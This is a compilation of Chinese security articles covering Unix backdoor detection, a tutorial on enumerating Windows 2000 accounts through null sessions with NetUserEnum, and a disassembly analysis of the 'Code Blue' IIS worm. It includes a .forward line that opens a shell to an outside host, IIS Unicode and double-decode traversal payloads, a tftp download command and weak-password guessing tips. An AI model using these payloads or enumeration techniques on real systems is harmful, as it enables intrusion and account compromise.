Unix 下在 .forward 文件里放入命令是重新获得访问的常用方法，在某一用户 $HOME 下的 .forward 可能设置如下：
`\username|" /usr/local/X11/bin/xterm -display hacksys.other.dom:0.0 -e /bin/sh"`
这种方法的变形包括改变系统的 mail 的别名文件（通常位于 `/etc/aliases`）。注意这只是一种简单的变换。更为高级的能够从 .forward 中运行简单脚本，实现在标准输入执行任意命令（小部分预处理后）。利用 smrsh 可以有效地制止这种后门（如果允许可以自运行的 elm's filter 或 procmail 类程序，很有可能还有问题）。在 Solaris 系统下，如果你运行如下命令：
`ln -s /var/mail/luser ~/.forward`
然后设置 vacation 有效，那么 `/var/mail/luser` 就会被拷贝到 `~/.forward`，同时会附加 `"/usr/bin/vacation me"`，旧的 symlink 被移到 `~/.forward..BACKUP` 中。
直接删除掉这两个文件也可以。

- 8. 检查系统文件完整性
检查文件的完整性有多种方法，通常我们通过输入 `ls -l 文件名` 来查询和比较文件，这种方法虽然简单，但还是有一定的实用性。但是如果 ls 文件都已经被替换了就比较麻烦。在 LINUX 下可以用 `rpm -V $(rpm -qf 文件名)` 来查询，利用查询的结果是否正常来判断文件是否完整。在 LINUX 下使用 rpm 来检查文件的完整性的方法也很多，这里不一一赘述，可以 `man rpm` 来获得更多的格式。
UNIX 系统中，`/bin/login` 是被入侵者经常替换作为后门的文件，接下来谈一下 login 后门：UNIX 里，Login 程序通常用来对 telnet 来的用户进行口令验证。入侵者获取 login 的源代码并修改，使它在比较输入口令与存储口令时先检查后门口令。如果用户敲入后门口令，它将忽视管理员设置的口令让你长驱直入：这将允许入侵者进入任何账号，甚至是 root 目录。由于后门口令是在用户真实登录并被日志记录到 utmp 和 wtmp 前产生的一个访问，所以入侵者可以登录获取 shell 却不会暴露该账号。管理员注意到这种后门后，使用“strings”命令搜索 login 程序以寻找文本信息。许多情况下后门口令会原形毕露。入侵者又会开始加密或者更改隐藏口令，使 strings 命令失效。所以许多管理员利用 MD5 校验和检测这种后门。UNIX 系统中有 md5sum 命令，输入 `md5sum 文件名` 检查该文件的 md5 签名。它的使用格式如下：`md5sum -b` 使用二进制方式阅读文件；`md5sum -c` 逆向检查 MD5 签名；`md5sum -t` 使用文本方式阅读文件。
在前面提到过守护进程，对于守护进程配置文件 inetd.conf 中没有被注释掉的行要进行仔细比较，举个简单的例子，如果你开放了 telnet 服务，守护进程配置文件中就会有一句：
`telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd`
可以看到它所使用的文件是 `/usr/sbin/in.telnetd`，检查该文件的完整性，入侵者往往通过替换守护进程中允许的服务文件来为自己创建一个后门。
LINUX 系统中的 `/etc/crontab` 也是经常被入侵者利用的一个文件，检查该文件的完整性，可以直接 `cat /etc/crontab`，仔细阅读该文件有没有被入侵者利用来做其他的事情。不替换 login 等文件而直接使用进程来启动后门的方法有一个缺陷，即系统一旦重新启动，这个进程就被杀死了，所以得让这个后门在系统启动的时候也启动起来。通常通过检查 `/etc/rc.d` 下的文件来查看系统启动的时候是不是带有后门程序；这个方法有点象查 windows 下的 trojan。
说到这里，另外提一下，如果在某一目录下发现有属性为这样的文件：`-rwsr-xr-x 1 root root xxx.sh`，这表明任何用户进来以后运行这个文件都可以获得一个 rootshell，这就是 setuid 文件。运行 `find / -perm 4000 -print` 对此类文件进行全局查找，然后删除这样的文件。

- 9. 检查内核级后门
如果你的系统被人安装了这种后门，通常都是比较讨厌的，遇到这种情况，首先要检查系统加载的模块，在 LINUX 系统下使用 `lsmod` 命令，在 solaris 系统下使用 `modinfo` 命令来查看。这里需要说明的是，一般默认安装的 LINUX 加载的模块都比较少，通常就是网卡的驱动；而 solaris 下就很多，没别的办法，只有一条一条地去分析。对内核进行加固后，应禁止插入或删除模块，从而保护系统的安全，否则入侵者将有可能再次对系统调用进行替换。我们可以通过替换 `create_module` 和 `delete_module` 来达到上述目的。另外，对这个内核进行加固模块时应尽早进行，以防系统调用已经被入侵者替换。如果系统被加载了后门模块，但是在模块列表 `/proc/modules` 里又看不到它们，有可能是使用了 hack 工具来移除加载的模块，大名鼎鼎的 knark 工具包就有移除加载模块的工具。出现这种情况，需要仔细查找 `/proc` 目录，根据查找到的文件和经验来判断被隐藏和伪装的进程。Knark 后门模块就在 `/proc/knark` 目录，当然可能这个目录是隐藏的。

## 10. 手工入侵检测的缺陷
上面谈了一些手工入侵检测的方法，但这些方式有一定的缺陷，有的甚至是不可避免的缺陷，这就是为什么说手工检测是“体力活”的原因。我们先来看看这些缺陷：
手工入侵检测只能基于主机，也就是说所有的入侵检测工作只能在操作系统下面完成，这是它固有的缺陷；基本上所有凌驾于操作系统之外的入侵行为统统无法探测得到。网络级的入侵，交换机、路由器上面的入侵和攻击行为，作为服务器的操作系统都无法得知；信息已经从主机发送出去了，如果在传送的介质当中被拦截，主机的操作系统是永远无动于衷的。
手工的入侵检测要求精通操作系统，并且漏洞库资料的刷新要快；在做一个网管的同时要做一个黑客。可以说经验的积累永远跟不上全世界漏洞资料的更新，难保系统不被新的漏洞所侵入。
手工入侵检测只是“就事论事”，根据发生的某一情况判断入侵事件，再作出相应的对应和防范措施，而无法预先根据入侵者的探测行为作出对攻击事件的描述，定义事件级别，在不妨碍系统正常工作的情况下阻止下一步对系统的入侵行为。
可以通过手工入侵检测发现主机上的某些漏洞，进而作出相应的安全措施。但却避免不了一种现象：无法避免两个入侵者利用同一个漏洞攻击主机，即无法判断攻击模式来切断入侵行为。
综上所述，手工的入侵检测行为对于系统安全来说只是治标而不治本，多半还是依靠管理员的技巧和经验来增强系统的安全性，没有也不可能形成真正的安全体系，但是它可以检测和追踪到某些入侵行为，但如果碰上同样精通系统的入侵者就很难抓住踪迹了。

## 11. 入侵检测系统的比较
搭建真正的安全体系需要入侵检测系统 - IDS，一个优秀的入侵检测系统辅以系统管理员的技巧和经验可以形成真正的安全体系，有效判断和切断入侵行为，真正保护主机、资料。人们有时候会以为 ISS 的 RealSecure 是优秀的入侵检测系统，其实不然，RealSecure 带有一定的缺陷，不谈它对事件的误报、漏报和错报，首先它是一个英文的软件，使用和熟悉起来有一定的难度。而且由于是外国人的软件，很多 hack 对 RealSecure 有深入的研究，已经发掘出它的一些漏洞，甚至是固有漏洞，我就曾经测试出有的攻击手段可以令 RealSecure 瘫痪。再者，RealSecure 也是架设在服务器操作系统之上的，操作系统停止工作，同样令之停止工作，换句话说，攻击者攻击的目标往往就是 RealSecure 本身。假设你的系统依赖于入侵检测系统，而入侵检测系统被攻击者搞掉，那你的系统将大门敞开，任由出入，后果不堪设想。
全中文的入侵检测系统当然是比较直观，目标也小很多。天阗探测引擎就是这当中比较典型的一种，它有自己的“黑匣子”，入侵者在攻击一台服务器的时候，几乎不可能找到该服务器运行的天阗探测引擎，这样就大大增加了攻击的难度，提高了服务器的安全性。有关天阗的资料可以在 http://www.venustech.com.cn 找到。关于入侵检测系统的比较和技术分析，笔者很快会撰文。

## 获取远端 Windows 2000 服务器系统信息

俗话说树大招风，微软就是棵大树，而它的 Windows 2000 由于使用面广，自然成为广大黑客朋友钻研的对象，钻研什么漏洞呗。有谁能统计一下到目前为止 Windows 出现过多少漏洞，微软发布了多少补丁，小生真是佩服得五体投地。下面是渗透实验室的皮球兄所撰一文，主要是和大家交流一下如何获取 Windows 2000 服务器的系统信息。

文/渗透实验室：大皮球

细细想想，Windows 2000 提供的功能实在是太强大了，这大大方便了 Admin 们的管理工作，不过利弊向来都是并存的。正是因为 Windows 2000 提供的强大功能，让您稍微不留神，系统就被黑客们光顾了，系统信息被暴露，是非常可怕的事情。这意味着黑客已经掌握了你的服务器一半的情况，一旦发现了系统的漏洞，就意味着下一步入侵的开始。举个简单的例子：如果你的服务器无意中开了一个共享文件夹，黑客想办法获取了你的服务器信息，发现这个共享文件夹允许访问，呵呵，很可能，就被他做个 Pub 什么的用用……

说了半天，到底远程能够获取什么样的系统信息呢？很多很多，不完全的说一下比较关键的信息吧：

- Server Name：服务器的名字。
- Server Comment：相关的说明信息，很多管理员喜欢在这里写上些敏感信息。
- Server Type：服务器类型，通过这个，黑客们可以判断出目标服务器是处于什么环境之下，比如可以判断出：A LAN Manager workstation, A LAN Manager server, Windows NT/Windows 2000 workstation or server, Windows NT/Windows 2000 server that is not a domain controller, Server running a browser service as backup, Server running the master browser service。
- Major_version、Minor_version：这两个分别是服务器大版本号和小版本号，黑客通过这个得到了操作系统的版本信息，比如，大版本号为 5，小版本号为 0，则说明是一台 Windows 2000 的服务器，而下一步就是查找 Windows 2000 的安全漏洞了。
- Current date, Current time is：服务器的日期和时间，通过这个，可以判断出服务器所在的时区，良好掌握渗透的时间。
- Session：得到当前服务器的会话连接 IP 地址，这个作用就比较广泛了，可以根据实际情况，灵活地运用。
- Share Enum：这是个很重要的信息，他展示出了服务器上所有的共享文件夹，包括隐含的共享，一旦发现可利用的共享信息，黑客只需简单地在浏览器中输入 \ip\share，就可以访问到目标主机的共享信息，就是这么危险。
- UserEnum：这个东西更可怕，连服务器的帐号信息都取来了，其中包括用户登陆成功次数，失败次数，帐号使用时间，登陆脚本路径，口令生效时间……这些连系统管理员都看不到哦！此外还有一些信息会被暴露出来，比如：用户名，用户权限，用户说明信息，是否帐号禁用……这很可能造成弱口令的用户名被轻易破解，粗心的系统管理员如果留个 user :test ,password : 123 之类的帐号在里面，估计服务器就保不住了。
- LocalGroupEnum：枚举本地组。

此外还有 UseEnum，FileEnum，ScheduleJobEnum……实在太多了。

下面，来说说最重要的部分——到底这些信息怎么样才能获取呢？

打开你的 winnt/system32 这个文件夹，找找看，是不是有一个叫做 netapi32.dll 的文件？从文件名，我们就可以知道，这是个和网络函数相关的动态连接库，这就是我们需要找的东西！上面取得的信息，其实全部是通过这个 DLL 文件来实现的。对应于这个 DLL 文件，Windows 2000 提供了一组相关的 API 函数调用，装上 Platform SDK 这个开发工具包，然后请打开你的 MSDN，输入要查找的关键字“Network Management”，然后选择 Network Management Reference -> Network Management Functions。你会看到一组以 Net 开头的 API 函数，正确运用这组函数，就可以获取远端服务器的信息了，函数用法是有点复杂，下面举个简单的例子。假如存在一台 Windows 2000 的目标主机，其 IP 地址为：192.168.10.111，我们现在准备获取他的帐号信息，首先我们建立一个 IPC$ 空会话连接，建立空会话和断开会话主要用到了两个函数：

```c
DWORD WNetAddConnection2(LPNETRESOURCE lpNetResource, LPCTSTR lpPassword, LPCTSTR lpUsername, DWORD dwFlags)
```

上面的函数是建立一个会话连接，其中 LPCTSTR lpPassword，LPCTSTR lpUsername 分别是用户口令和用户名，要想建立空会话，则一定要把这两项置成空。

```c
DWORD WNetCancelConnection2(LPCTSTR lpName, DWORD dwFlags, BOOL fForce)


```

WNetCancelConnection2 的作用则和 WNetAddConnection2 是相反的，在获取用户信息后，为了确保安全，黑客会用他迅速的断开与服务器之间的会话。

我已经把它写成了一个类，这个是类其中的一部分函数：
同样地，也是模拟了这条命令 `net use \xxx.xxx.xxx.xxx /DEL`

刚刚说了，我们要取的是远端服务器上的帐号信息，打开 MSDN，输入关键字：NetUserEnum，看到了吧？你可以找到这条函数 `NET_API_STATUS NetUserEnum(LPCWSTR servername, DWORD level, DWORD filter, LPBYTE *bufptr, DWORD prefmaxlen, LPDWORD entriesread, LPDWORD totalentries, LPDWORD resume_handle)`

一大串参数，看起来挺可怕的，不要紧，我们一个一个来过：

`LPCWSTR servername`：注意，它可是要求 LPCWSTR 类型的数据，也就是说，要求用 Unicode 字符，如果你直接为它赋值，是肯定不行的，要绕点弯了，有这样一个函数：

```c
MultiByteToWideChar(UINT CodePage, DWORD dwFlags, LPCSTR lpMultiByteStr, int cbMultiByte, LPWSTR lpWideCharStr, int cchWideChar)


```

这个函数的作用就是用来把单字节转换为双字节。

`DWORD level`：用来指定操作级别，不同用户的访问权限。根据不同的级别，可以获取不同等级的系统信息，根据 MSDN 上的描述，如表 1 里的级别可供选择。

与主机建立空会话，已经可以使用除了 4 和 23 以外的所有级别了，4 和 23 被保留了，目前在 windows 2000 下还不支持这两个级别，它是为了后面的 Windows XP 版本留的。好了，我们有了上面的信息，就开始写程序了。

为了免去诈骗稿费之嫌，我们就举例最简单的 level 0 级别操作，在这个级别，你只能取到系统的帐号名，不过对于黑客来说，已经足够了。

下面是程序脚本：
如果你愿意，还可以设计一下弱口令的探测规则，比如，如果存在用户名为 test，则可以尝试口令为“ ”，“test”，“test123”，“t”，“123”......这个规则越复杂成功率越高哦！大家熟悉的 X-Scan 就是用这种方法获取远程主机信息的，口令探测也是这种方法实现的。

其他的信息获取方法和 NetUserEnum 差不多，只有很小的一些改动，为了节约篇幅，代码就不给出了，如果你需要更多的资料，请关注我的站点 http://BigBall.xici.net，我发布了一个用这种方法制作的全功能扫描器，不久后会公布源代码的，也欢迎大家和我交流。

表 1
| 级别 | 说明 |
|---|---|
| 0 | 在这个级别里，可以获取用户帐号名，它使用 USER_INFO_0 这个结构存储，在 ipc 空连接的时候是可用的 |
| 1 | Return detailed information about user accounts. The bufptr parameter points to an array of USER_INFO_1 structures. |
| 2 | Return level one information and additional attributes about user accounts. The bufptr parameter points to an array of USER_INFO_2 structures. |
| 3 | Return level two information and additional attributes about user accounts. This level is valid only on Windows NT/Windows 2000 servers. The bufptr parameter points to an array of USER_INFO_3 structures. Note that on Whistler and later， it is recommended that you use USER_INFO_4 instead. |
| 4 | Whistler： Return level two information and additional attributes about user accounts. This level is valid only on Windows NT/Windows 2000 servers. The bufptr parameter points to an array of USER_INFO_4 structures. |
| 10 | Return user and account names and comments. The bufptr parameter points to an array of USER_INFO_10 structures. |
| 11 | Return detailed information about user accounts. The bufptr parameter points to an array of USER_INFO_11 structures. |
| 20 | Return the user's name and identifier and various account attributes. The bufptr parameter points to an array of USER_INFO_20 structures. Note that on Whistler and later， it is recommended that you use USER_INFO_23 instead. |
| 23 | Whistler： Return the user's name and identifier and various account attributes. The bufptr parameter points to an array of USER_INFO_23 structures. |

## “蓝色代码”详细分析

继“红色代码”蠕虫肆虐全球之后，最近国内几大杀毒软件厂商相继公布发现另一种更为厉害的网络蠕虫“蓝色代码”。为了对这种新蠕虫进行研究，本人对国内的几个网段进行了扫描，费尽九牛二虎之力终于截获了这种蠕虫的二进制程序标本，通过一段时间的分析，基本掌握了该蠕虫的感染、传播以及发作机理。

### 一、简要介绍

经过分析发现，这个“蓝色代码”蠕虫是利用了IIS的UNICODE以及二次解码漏洞来进行传播的，它的感染方式也并不是像某些杀毒软件厂商所声称的那样是通过内存到内存的感染方式，而是利用文件复制的方法进行感染的，这是它与“红色代码”的最大不同之处。也正是因为这个原因，“蓝色代码”的传播速度远远不如它的大哥“红色代码”快。

该蠕虫的主体部分共包括两部分：svchost.exe 和 httpext.dll，其中 svchost.exe 用来启动扫描线程进行传播，而 httpext.dll 则用来提升权限以及启动 httpext.dll。整个蠕虫感染传播的流程如下图所示：
可以看到这种蠕虫是利用tftp协议进行传播的，由于tftp协议是一种UDP协议，它的稳定性不太好，所以传播失败的可能性也很大。但总的来说，这个蠕虫还是有一定发展空间的，因为现在国内存在UNICODE和二次解码漏洞的机器非常之多。

### 二、详细分析

下面是根据“蓝色代码”程序标本进行反汇编后得到的汇编代码进行的详细分析结果：

- 1、tftp 服务器部分

可以看出程序一开始部分，首先调用WSAStartup来初始化Winsock DLL，然后紧接着调用_beginthread来开启一个sub_4011A1线程，这就是tftp线程部分，下面我们来看看这个线程的具体内容：

这个线程的一开始调用 CreateFileA 来打开 C:\httptext.dll 文件，然后将其内容读入内存：

```asm
.text    004011AF    push    edi            hTemplateFile
.text    004011B0    push    80h          dwFlagsAndAttributes
.text    004011B5    push    3            dwCreationDisposition
.text    004011B7    push    edi          lpSecurityAttributes
.text    004011B8    push    1            dwShareMode
.text    004011BA    push    80000000h    dwDesiredAccess
.text    004011BF    push    lpFileName   lpFileName
.text    004011C5    mov     ebp + var_10 edi
.text    004011C8    mov     ebp + var_9  1
.text    004011CC    mov     ebp + var_1  4
.text    004011D0    xor     esi, esi
.text    004011D2    call    ds CreateFileA  打开 C \httptext.dll 文件
......
.text    00401204    lea     eax, ebp + NumberOfBytesRead
.text    00401207    push    edi          lpOverlapped
.text    00401208    push    eax          lpNumberOfBytesRead
.text    00401209    mov     eax, ebp + var_14
.text    0040120C    sub     eax, esi
.text    0040120E    push    eax          nNumberOfBytesToRead
.text    0040120F    mov     eax, ebp + var_1C
.text    00401212    add     eax, esi
.text    00401214    push    eax          lpBuffer
.text    00401215    push    ebx          hFile
.text    00401216    call    ds ReadFile    读 C \httptext.dll 文件内容
```

随后调用 socket 和 bind 来监听 UDP 的 69 端口，即 tftp 端口：

```asm
.text    0040122B    push    11h    protocol
.text    0040122D    push    2      type
.text    0040122F    push    2      af
.text    00401231    call    ds socket
```

然后蠕虫调用 recvfrom 来接收发送到本地 69 端口的 UDP 包，如果接到这样的请求包，则把已经读入内存的 httpext.dll 的内容分割成每个 512 字节的小包分别发送出去。

```asm
.text    004012C0    lea     eax, ebp + tolen
.text    004012C3    push    eax            fromlen
.text    004012C4    lea     eax, ebp + to
.text    004012C7    push    eax            from
.text    004012C8    push    edi            flags
.text    004012C9    lea     eax, ebp + buf
.text    004012CF    push    400h           len
```

```asm
.text    004012D4    push    eax            buf
.text    004012D5    push    esi            s
.text    004012D6    call    ds recvfrom
```

这样就开启了 tftp 服务器，当有服务器进行 tftp 连接时就可以把 httpext.dll 发送过去，这样就实现了蠕虫的传输。需要提到的是，这并不是一个完整的 tftp 服务器，而仅仅具备了利用 tftp 协议传输 httpext.dll 的功能。

- 2、删除映射部分

“蓝色代码”蠕虫除了进行自我复制以外还会在被感染主机上进行一些设置，其中主要包括：添加 CodeBlue 原子、通过 d.vbs 文件来删除映射、杀掉 inetinfo.exe (IIS) 进程等。下面是对这部分代码的分析：

主进程首先调用 GlobalAddAtomA 来添加一个名为“CodeBlue”的全局原子，估计作者的意图是为了避免重复感染，而“蓝色代码”的名字也是从这里来的：

```asm
.text    0040113C    push    esi
.text    0040113D    push    edi
.text    0040113E    push    offset aCodeblue lpString
.text    00401143    call    ds GlobalAddAtomA 增加全局原子
```

随后调用一个子程序，这个子程序的作用为在注册表的 HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\RUN 目录中增加一个名为 Domain Manager 键值为 C:\svchost.exe 的键，使得系统每次重新启动时可以自动运行 C:\svchost.exe。

```asm
.text    00401430    lea     eax ebp + dwDisposition
.text    00401433    push    edi
.text    00401434    push    eax lpdwDisposition
.text    00401435    lea     eax ebp + hKey
.text    00401438    xor     edi edi
.text    0040143A    push    eax phkResult
.text    0040143B    push    edi lpSecurityAttributes
.text    0040143C    push    0F003Fh samDesired
.text    00401441    push    edi dwOptions
.text    00401442    push    edi lpClass
.text    00401443    push    edi Reserved
.text    00401444    push    offset aSoftwareMicros lpSubKey
.text    00401449    push    80000002h hKey
.text    0040144E    mov     ebp + dwDisposition 2
.text    00401455    call    ds RegCreateKeyExA 创建新注册表键
.text    0040145B    mov     esi offset aCSvchost_exe "C\svchost.exe"
.text    00401460    push    esi
.text    00401461    call    _strlen
.text    00401466    pop     ecx
``````text
.text 00401467 push eax          cbData
.text 00401468 push esi          lpData
.text 00401469 push 1            dwType
.text 0040146B push edi          Reserved
.text 0040146C push offset aDomainManager lpValueName
.text 00401471 push ebp + hKey   hKey
.text 00401474 call ds RegSetValueExA 设置键值
.text 0040147A push ebp + hKey   hKey
.text 0040147D call ds RegCloseKey   关闭注册表
```

然后蠕虫把 C盘下的 svchost.exe 和 httpext.dll 文件的文件属性设置为系统文件，这样用户通过资源管理器就无法看到这两个文件了，从而增加了蠕虫的隐蔽性。

```text
.text 00401483 push 6            dwFileAttributes
.text 00401485 push esi          lpFileName
.text 00401486 mov esi, ds SetFileAttributesA
.text 0040148C call esi          SetFileAttributesA
.text 0040148E push 6            dwFileAttributes，文件属性为系统、只读
.text 00401490 push lpFileName   lpFileName
.text 00401496 call esi          SetFileAttributesA
.text 00401498 push 6            dwFileAttributes，文件属性为系统、只读
.text 0040149A push offset aCInetpubScript lpFileName
.text 0040149F call esi          SetFileAttributesA
```

紧接着蠕虫主线程调用另外一个子程序，它的作用为在 C盘下产生 d.vbs 文件，并运行它，这个 d.vbs 文件是一个 VBScript 脚本程序，其内容为：

```vbscript
Dim WebService, vList, item, vFound, vSubDan, Danger, vNewCount, FoundString
Function FindMapper(Str1, Str2)
    FindMapper = False
    If InStr(Str2, Str1) <> 0 Then
        FoundString = FoundString & "Found " & Str1 & " " & Chr(13) & Chr(10)
        FindMapper = True
    End If
End Function
Function DelMapper(WebService)
    Danger = Array(".ida", ".idq", ".printer")
    vNewCount = 0
    vList = WebService.GetEx("ScriptMaps")
    For Each item In vList
        vFound = False
        For Each vSubDan In Danger
            If FindMapper(vSubDan, item) = True Then
                vFound = True
                Exit For
            End If
        Next
        If vFound = False Then
            vNewCount = vNewCount + 1
            ReDim Preserve vNew(vNewCount)
            vNew(vNewCount - 1) = item
        End If
    Next
    WebService.PutEx 2, "ScriptMaps", vNew
    WebService.SetInfo
End Function
Set WebService = GetObject("IIS://LocalHost/W3SVC")
DelMapper WebService
Set WebService = GetObject("IIS://LocalHost/W3SVC/1")
DelMapper WebService
Set WebService = GetObject("IIS://LocalHost/W3SVC/1/Root")
DelMapper WebService
```

可以看到它首先使用了 WebService 对象的 ScriptMaps 属性来删除主机 IIS 以及第一个虚拟主机的 IIS 的 .ida、.idq、.printer 映射，这三个映射均存在缓冲区溢出漏洞，而“红色代码”以及“红色代码 II”都是利用了 .idq 溢出进行攻击的，所以可以猜测，“蓝色代码”蠕虫删除这些映射的目的可能在于避免主机被其它类似于“红色代码”的蠕虫攻击。

在删除映射之后，蠕虫代码调用了 GetVersionExA 来得到操作系统的类型，如果操作系统版本大于 4 的话，就转而去停止 inetinfo.exe 进程。

```text
.text 0040168B push ebp + dwProcessId dwProcessId
.text 0040168E push edi          bInheritHandle
.text 0040168F push 1F0FFFh      dwDesiredAccess
.text 00401694 call ds OpenProcess 打开 inetinfo.exe 进程
.text 0040169A mov ebp + var_24, eax
.text 0040169D cmp eax, edi
.text 0040169F jz short loc_4016B0
.text 004016A1 push esi          uExitCode
.text 004016A2 push eax          hProcess
.text 004016A3 call ds TerminateProcess 终止该进程
```

## 3、传播部分

在被感染主机上完成一系列设置动作之后，“蓝色代码”蠕虫就开始自己的最主要工作——自我传播。蠕虫从主线程中启动 100 个完全相同的传播线程，从而占用了大量系统资源。

在进行传播之前，蠕虫首先通过 gethostbyname 来获取本主机的 IP 地址，代码如下：

```text
.text 00401928 lea eax, ebp + name
.text 0040192E push 100h         namelen
.text 00401933 push eax          name
.text 00401934 call ds gethostname 得到本主机机器名
.text 0040193A lea eax, ebp + name
.text 00401940 push eax          name
.text 00401941 call ds gethostbyname 通过机器名得到 IP 地址
```

在得到本主机的 IP 地址之后，蠕虫就进入了正式的传播线程。它首先通过调用 GetSystemTime 来获得当前的系统时间，如果时间满足某个条件则进入一个攻击中联绿盟网站的子程序。

```text
.text 004019CE lea eax, ebp + SystemTime
.text 004019D4 push eax          lpSystemTime
.text 004019D5 call ds GetSystemTime 获取系统时间
.text 004019DB movzx eax, ebp + SystemTime.wHour
.text 004019E2 cmp eax, 0Ah
.text 004019E5 jle short loc_4019F8
.text 004019E7 movzx eax, ebp + SystemTime.wHour
.text 004019EE cmp eax, 0Bh
.text 004019F1 jge short loc_4019F8
.text 004019F3 call sub_401820   如果系统小时数大于 10 且小于 11 则调用攻击绿盟的子函数
```

我们可以看到，在这里蠕虫作者犯了一个极为愚蠢的错误，因为系统当前的小时数值是一个整数，它肯定不会满足既大于 10 而又小于 11 的条件。所以从理论上说，程序是永远无法运行到攻击绿盟的子程序的。但是我们无法了解的是，为什么作者会选择攻击绿盟的网站呢？中联绿盟做为国内一家比较知名的网络安全公司，也许会引起其他一些商家的嫉妒，从而导致商业竞争而引发的攻击行为？在这里我们也只能进行这样的猜测了。

蠕虫接下来就产生一个随机 IP 地址，如果该 IP 的前 2 位大于 0x7E（127），则把该 IP 地址的前 4 位换为本主机 IP 地址的前 4 位，这样就等于有 50% 的机会扫描本 B 类网段内的随机 IP 地址，而另外 50% 的可能性就会去扫描完全随机的地址。这样做显然是受到了“红色代码 II”的启发，通过扫描本 B 类网段来提高传播的效率。

在得到随机 IP 之后，蠕虫就开始正式攻击，它首先连往这个 IP 地址的 80 端口，发送一个“HEAD/HTTP/1.0”请求，通过判断返回的字符串时含有“IIS”串来判断目标主机是否运行了 IIS 服务器，如果不是的话，蠕虫就无法对其感染，它会回到重新产生随机 IP 地址那一步。

然后蠕虫就从几个目录以及编码字符串中选一个构造攻击串，其中目录字符串包括：

- scripts
- msadc
- iisadmin
- _vti_bin
- iissamples
- iishelp
- webpub

这些都是一些可能存在 UNICODE 或者二次编码漏洞的虚拟目录名，而编码字符串包括：

- %255c
- %c1%1c
- %c0%2f
- %c0%af
- %c1%9c
- %%35%63
- %%35c
- %25%35%63
- %252f

这些显然是 UNICODE 以及二次编码漏洞的解析代码，蠕虫通过构造一个下面这样的攻击串来进行攻击：

```text
GET /目录名/..编码.. 编码.. 编码.. 编码../winnt/system32/cmd.exe /c + dir
```

例如，如果蠕虫选择攻击 scripts 目录和使用%255c 编码串，那么它就会构造一个这样的攻击串：

```text
GET /scripts/..%255c..%255c..%255c..%255c..%255c../winnt/system32/cmd.exe /c + dir
```

这是一个典型的通过二次编码漏洞来执行 dir 命令的攻击，蠕虫对目标主机发送这个串，如果目标主机存在二次编码漏洞就会返回“ 200 OK”，这样蠕虫就继续执行其他的感染命令，而如果目标没有返回“ 200 OK” 就说明目标主机没有这个漏洞，蠕虫就继续使用其他的目录和编码来进行攻击，直到攻击成功，如果测试完所有的目录和编码都不能成功，那么蠕虫就放弃这个 IP 地址，再回到重新产生 IP 地址的那一步。

如果发现目标主机上存在 UNICODE 或者二次编码漏洞，蠕虫就会利用这个漏洞在目标主机上执行 `tftp -i 本主机IP get httpext.dll` 命令，把 C盘下的 httpext.dll 文件发送到目标主机上去。因为前面已经开了一个 tftp 服务器线程，一旦目标主机发送过来 tftp 请求，蠕虫中的 tftp 服务器线程就打开本地 C盘httpext.dll 文件，然后分解成小包发送过去。

然后蠕虫再次利用 UNICODE 或者二次编码漏洞执行 `copy httpext.dll c:\` 命令，把已经上传的 httpext.dll 文件复制到 C盘下面，以便下次在被感染主机上再向其他机器发送这个文件。最后蠕虫发送一个“ GET /目录/httpext.dll” 串，在目标主机上启动蠕虫。如果启动成功，httpext.dll 会回显一个“ CodeBlue” 字符串，通过判断这个字符串就可以知道是否在目标主机上成功地传染了“ 蓝色代码”。

在完成对一个目标主机的攻击后，蠕虫就返回到产生随机 IP 的那一步去，再去感染其他的主机。

## 4、httpext.dll

蠕虫为什么要使用 httpext.dll 来启动 svchost.exe 呢？这是微软 IIS 的一个新漏洞，IIS 对普通 ISAPI 程序运行时赋予的权限是 IUSR_NAME，而对于 httpext.dll 这个 ISAPI 则赋予 SYSTEM 权限，即系统的最高权限，这样启动的蠕虫就具有系统最高权限了。

那么蠕虫是怎样通过 httpext.dll 来启动 svchost.exe 的呢？由于这个 httpext.dll 编写的比较复杂，我分析了很长时间 仍然难以完全看清楚它的启动过程，只能进行以下推测：

httpext.dll 里面包含了 svchost.exe 的二进制代码，它首先在 C盘 下面生成 svchost.exe，然后运行它，最后向客户端发送“ CodeBlue” 字符串。

总之，这个 httpext.dll 的主要作用在于利用 IIS 对 ISAPI 文件名的错误权限检查漏洞来使得蠕虫可以以 SYSTEM 身份运行。

## 5、攻击中联绿盟部分

虽然由于作者的失误，这一部分代码永远也不可能被执行，但是这里我们仍然来分析一下蠕虫是使用怎样的方法来企图攻击绿盟网站的。

```text
.text 00401842 mov word ptr [esp + 10h], 2
.text 00401849 push offset a211_99_196_135   IP
.text 0040184E call ds inet_addr
```

首先得到绿盟网站的 IP 地址（211.99.196.135）。紧接着建立 socket，并连接到绿盟网站的 80 端口：

```text
.text 00401867 push edi          protocol
.text 00401868 push 1            type
.text 0040186A push 2            af
.text 0040186C call ds socket
...
.text 00401898 lea eax, [esp + 28h + name]
.text 0040189C push 10h          namelen
.text 0040189E push eax          name
.text 0040189F push esi          s
.text 004018A0 call ds connect
```

随后进行攻击，即发送一个“ GET /main.php ” 串，紧接着发送 0x4800 字节的'A'字符串，后面跟一个伪装成浏览器的字符串。

```text
.text 00401820 mov eax, 4810h
.text 00401825 call __alloca_probe         开辟一个缓冲区
.text 0040182A push ebx
.text 0040182B push ebp
.text 0040182C push esi
.text 0040182D push edi
.text 0040182E push 4800h
.text 00401833 lea eax, [esp + 14h + arg_C]
.text 00401837 push 41h                    字符'A'
.text 00401839 push eax
.text 0040183A call _memset               将缓冲区的前 0x4800 填充上'A'
...
.text 004018C5 push 0Eh                    len
.text 004018C7 push offset aGetMain_php    " GET /main.php "
```

```text
.text 004018CC push esi          s
.text 004018CD call edi          调用 send 发送上面的字符串
.text 004018CF push 0            flags
.text 004018D1 lea eax, [esp + 4Ch + buf]
.text 004018D5 push 4800h        len
.text 004018DA push eax          buf
.text 004018DB push esi          s
.text 004018DC call edi          调用 send 发送上面的 0x4800 字节'A'
.text 004018DE push 0            flags
.text 004018E0 push offset aHttp1_1AcceptI 伪装浏览器的结尾字符串
.text 004018F1 push esi          s
.text 004018F2 call edi          调用 send 发送上面的字符串
```

然后攻击线程休眠 0x1388 毫秒后结束线程，并重新开启一个扫描线程。可以看出，蠕虫企图利用向绿盟主机发送大量字符串的方法来实现 DoS 攻击。当然由于作者的失误，这一攻击在实际过程中是不可能完成的。

## 三、总结

